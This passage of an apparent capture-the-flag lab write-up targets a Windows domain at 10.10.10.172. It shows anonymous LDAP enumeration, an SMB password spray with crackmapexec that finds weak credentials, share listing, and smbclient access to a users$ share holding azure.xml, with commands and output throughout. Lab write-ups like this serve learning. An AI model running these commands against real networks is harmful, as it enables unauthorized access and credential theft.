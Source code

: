 ```bash
# numResponses: 2
# numEntries: 1
```

Extracted users:

```bash
ldapsearch -x -H ldap://10.10.10.172 -D '' -w '' -b "DC=megabank,DC=local" '(objectClass=person)' > ldap-people.txt
```

Extracted Computers:

```bash
ldapsearch -x -H ldap://10.10.10.172 -D '' -w '' -b "DC=megabank,DC=local" '(objectClass=computer)' > ldap-computer.txt
```

## Password Bruteforce

Used `crackmapexec` to brute force smb login:

```bash
crackmapexec smb 10.10.10.172 -u userslist -p userslist

SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs
```

Found a set of Credentials: `SABatchJobs:SABatchJobs`

## SMB Enumeration (Pt. 2)

Enumerated SMB shares:

```bash
crackmapexec smb 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' --shares

SMB         10.10.10.172    445    MONTEVERDE       Share           Permissions     Remark
SMB         10.10.10.172    445    MONTEVERDE       -----           -----------     ------
SMB         10.10.10.172    445    MONTEVERDE       ADMIN$                          Remote Admin
SMB         10.10.10.172    445    MONTEVERDE       azure_uploads   READ            
SMB         10.10.10.172    445    MONTEVERDE       C$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       E$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       IPC$            READ            Remote IPC
SMB         10.10.10.172    445    MONTEVERDE       NETLOGON        READ            Logon server share 
SMB         10.10.10.172    445    MONTEVERDE       SYSVOL          READ            Logon server share 
SMB         10.10.10.172    445    MONTEVERDE       users$          READ
```

Looked under `users$` and found a file titled `azure.xml` under the folder `mhope\`:

```bash
smbclient //10.10.10.172/users$ --user SABatchJobs --password SABatchJobs

smb: \mhope\> ls
  .                                   D        0  Fri Jan  3 13:41:18 2020
  ..                                  D        0  Fri Jan  3 13:41:18 2020
  azure.xml                          AR     1212  Fri Jan  3 13:40:23 2020
```
